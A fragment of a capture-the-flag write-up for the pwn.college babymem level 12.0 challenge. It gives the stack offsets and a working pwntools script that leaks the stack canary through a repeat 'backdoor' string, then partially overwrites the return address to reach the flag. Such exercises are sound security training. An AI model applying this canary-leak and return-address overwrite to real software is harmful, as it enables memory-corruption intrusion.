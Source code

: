 ```
    print(s, end='')
```
- After I run this code python, I get the input: 
**REPEATBackdoor triggered! Repeating challenge()Goodbye!<stdin>argc > 0###### Welcome to %s**
## Calcualte the offset and write script
- The offset is showed by the program, you can calculate it easily.
    - offset between buf and canary: 56
    - offset between buf and ret_addr: 72
    
**My script**
    
```
from pwn import *

while True:
    r = process('/challenge/babymem_level12.0')
    r.recvuntil(b'Payload size: ')
    r.sendline(b'57')
    r.recvuntil(b'Send your payload (up to 57 bytes)!')
    r.sendline(b'REPEATBackdoor' + b'A'*43)
    r.recvuntil(b'You said: REPEATBackdoorAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')
    canary_rev = int(r.recvn(7).hex(), 16)
    canary_str = "0x" + bytes.fromhex(hex(canary_rev)[2:])[::-1].hex() + "00"
    canary = int(canary_str, 16)
    print(hex(canary))
    r.recvuntil(b'Payload size: ')
    r.sendline(b'74')
    r.recvuntil(b'Send your payload (up to 74 bytes)!')
    r.sendline(b'A'*56 + p64(canary) + b'A'*8  + 0x18ca.to_bytes(2, 'little'))
    result = r.recvall()
    r.close()
    if b'pwn.college{' in result:
        print(result.decode('utf-8', errors='ignore'))
        break
```